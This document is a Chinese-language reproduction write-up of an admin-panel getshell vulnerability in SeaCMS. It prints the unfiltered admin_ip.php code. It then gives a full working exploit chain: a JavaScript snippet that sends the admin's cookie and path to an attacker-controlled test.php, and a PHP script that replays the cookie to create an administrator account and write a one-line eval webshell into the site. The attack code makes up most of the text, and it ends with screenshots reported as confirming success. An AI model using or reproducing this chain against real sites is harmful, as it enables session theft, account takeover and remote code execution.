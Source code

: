 ```yaml
---
title: Seacms getshell
id: zhfly3112
---
```


# Seacms 后台getshell

## 一、漏洞简介

海洋cms是一款简单的php内容管理系统，主要用于视频网站，采用PHP+MYSQL架构，未使用框架

## 二、漏洞影响

## 三、复现过程

后台代码如下

```
<?php

header(‘Content-Type:text/html;charset=utf-8’);

require_once(dirname(**FILE**)."/config.php");

CheckPurview();

if($action==“set”)

{

```
$v= $_POST['v'];

$ip = $_POST['ip'];

$open=fopen("../data/admin/ip.php","w" );

$str='&lt;?php ';

$str.='$v = "';

$str.="$v";

$str.='"; ';

$str.='$ip = "';

$str.="$ip";

$str.='"; ';

$str.=" ?&gt;";

fwrite($open,$str);

fclose($open);

ShowMsg("成功保存设置!","admin_ip.php");

exit; 
```

} `?>` 
```

这里根本没有经过过滤，直接将变量写进去，可以写一个脚本利用

代码如下

```
# test.js

var img = new Image();

img.src=  “[http://127.0.0.1/test.php?x=](http://127.0.0.1/test.php?x=)” + document.cookie + “&p=” + location.pathname;

# test.php

<?php

```
function Requests($url, $data, $cookie = '', $type = 1){

    $ch = curl_init();

    $params[CURLOPT_URL] = $url;

       $params[CURLOPT_HEADER] = FALSE;

    $params[CURLOPT_SSL_VERIFYPEER] = false;

    $params[CURLOPT_SSL_VERIFYHOST] = false;

    $params[CURLOPT_RETURNTRANSFER] = true;

    if ($type === 1) {

        $params[CURLOPT_POST] = true;

        $params[CURLOPT_POSTFIELDS] = $data;

    }

    $params[CURLOPT_COOKIE] = $cookie;

    curl_setopt_array($ch, $params);

    $output = curl_exec($ch);

    file_put_contents('log.txt', $output, FILE_APPEND);

    curl_close($ch);

}

$C = $_GET['x'];

$P = $_GET['p'];

$P = substr($P, 0, strlen($P)-21);

file_put_contents('c.txt', $C);

file_put_contents('p.txt', $P);

$url_1 = 'http://192.168.113.128'.$P.'admin_manager.php?action=add';

$url_2 = 'http://192.168.113.128'.$P.'admin_ip.php?action=set';

$data_1 = 'username=test&amp;pwd=test&amp;pwd2=test&amp;groupid=1';

$data_2 = 'v=0&amp;ip=+";@eval($_POST[qwer]);"';

Requests($url_1, $data_1, $C);

Requests($url_2, $data_2, $C); 
``` 
```

这两个脚本会将cookie和后台路径保存在文件中，并且会向后台发送数据，添加一个系统管理员，同时会在系统中写入一个一句话木马，需要注意的是修改域名为测试域名。测试如下

![image](../img/283faa3b8758a5513226ac6689fe5a5f.png)

代码已经写进了后

![image](../img/2450b548774ab8805b7773eb95543f11.png)

管理员添加成功

![image](../img/0e4c6cce6168c7ec9e8a759319d88fdd.png)

一句话也写进去了